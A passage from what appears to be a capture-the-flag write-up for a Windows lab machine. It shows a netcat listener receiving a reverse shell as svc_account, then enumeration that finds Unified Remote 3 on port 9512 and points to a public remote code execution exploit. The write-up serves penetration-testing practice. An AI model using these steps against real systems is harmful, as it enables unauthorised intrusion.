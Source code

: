 Receive a command shell as `svc_account`:

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.97] from (UNKNOWN) [10.129.174.204] 49560
whoami
hancliffe\svc_account
```

---

## Unified Remote 3 RCE as `clara`

[Unified Remote](https://www.unifiedremote.com/) version 3 is installed in `C:\Program Files (x86)\One Remote 3\`.

```batch
C:\Nuxeo>dir /a "C:\Program Files (x86)"
dir /a "C:\Program Files (x86)"
 Volume in drive C has no label.
 Volume Serial Number is B0F6-2F1B

 Directory of C:\Program Files (x86)

06/26/2021  09:15 PM    <DIR>          .
06/26/2021  09:15 PM    <DIR>          ..
06/03/2021  06:11 AM    <DIR>          Common Files
12/07/2019  01:12 AM               174 desktop.ini
10/03/2021  10:08 PM    <DIR>          Internet Explorer
06/03/2021  07:09 PM    <DIR>          Microsoft
12/07/2019  06:48 AM    <DIR>          Microsoft.NET
06/26/2021  09:15 PM    <DIR>          Mozilla Maintenance Service
06/12/2021  01:51 AM    <DIR>          MSBuild
06/12/2021  01:51 AM    <DIR>          Reference Assemblies
06/11/2021  11:21 PM    <DIR>          Unified Remote 3
04/09/2021  05:48 AM    <DIR>          Windows Defender
07/17/2021  11:20 PM    <DIR>          Windows Mail
12/07/2019  06:44 AM    <DIR>          Windows NT
04/09/2021  05:48 AM    <DIR>          Windows Photo Viewer
12/07/2019  01:25 AM    <DIR>          Windows Sidebar
12/07/2019  01:25 AM    <DIR>          WindowsPowerShell
               1 File(s)            174 bytes
              16 Dir(s)   5,567,115,264 bytes free
```

There exists a [remote code execution vulnerability](https://www.exploit-db.com/exploits/49587) in Unified Remote version 3. The exploit attempts to connect to port 9512, which is listening on the target, but firewall rules prevent external access.

```batch
c:\Nuxeo>netstat -ano | findstr 9512
netstat -ano | findstr 9512
  TCP    0.0.0.0:9512           0.0.0.0:0              LISTENING       7196
  UDP    0.0.0.0:9512           *:*                                    7196
```
